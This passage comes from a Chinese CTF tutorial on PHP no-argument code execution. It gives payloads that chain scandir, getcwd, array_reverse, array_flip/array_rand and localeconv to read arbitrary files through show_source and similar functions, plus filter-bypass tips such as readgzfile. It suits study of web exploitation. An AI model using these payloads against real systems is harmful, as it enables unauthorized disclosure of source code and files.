 `show_source(end(scandir(getcwd())));`或者用`readfile`、`highlight_file`、`file_get_contents` 等读文件函数都可以（使用`readfile`和`file_get_contents`读文件，显示在源码处）

ps：`readgzfile()`也可读文件，常用于绕过过滤

`array_reverse()`： 以相反的元素顺序返回数组，本来在最后一位，反过来就成为第一位，可以直接用`current`或者`pos`读取

`show_source(current(array_reverse(scandir(getcwd()))));`

如果是倒数第二个我们可以用：`show_source(next(array_reverse(scandir(getcwd()))));`

>`next()` 函数用于将数组内部的指针向后移动，并返回当前指针位置的下一个元素的值。
>
>```
>$fruits = array("apple", "banana", "orange");
>echo current($fruits); // Output: "apple"
>
>next($fruits); // 移动指针到下一个元素
>echo current($fruits); // Output: "banana"
>
>next($fruits); // 移动指针到下一个元素
>echo current($fruits); // Output: "orange"
>
>next($fruits); // 移动指针到下一个元素，此时没有下一个元素，返回 false
>echo current($fruits); // Output: false
>在上述示例中，通过使用 next() 函数，我们将数组指针从第一个元素移动到第二个元素，然后再移动到第三个元素，最后移动到了最后一个元素后返回了 false
>```

如果不是数组的最后一个或者倒数第二个呢？

我们可以使用`array_rand(array_flip())`，`array_flip()`是交换数组的键和值，`array_rand()`从数组中随机选择一个或多个键，并返回选定的键或键的数组

所以我们可以用：`show_source(array_rand(array_flip(scandir(getcwd()))));`

或者：`show_source(array_rand(array_flip(scandir(current(localeconv())))));`

（可以自己结合前面总结的构造`"."`的方法切合实际过滤情况读取，后文就只列举简单的语句）

### 查看上一级目录文件名

`dirname()` ：返回路径中的目录部分，比如：

![image-20230719190241851](daydayup.assets/image-20230719190241851.png)

如果传入的值是绝对路径（不包含文件名），则返回的是上一层路径，传入的是文件名绝对路径则返回文件的当前路径

`chdir()` ：改变当前工作目录返回值为`bool`

- dirname()方法
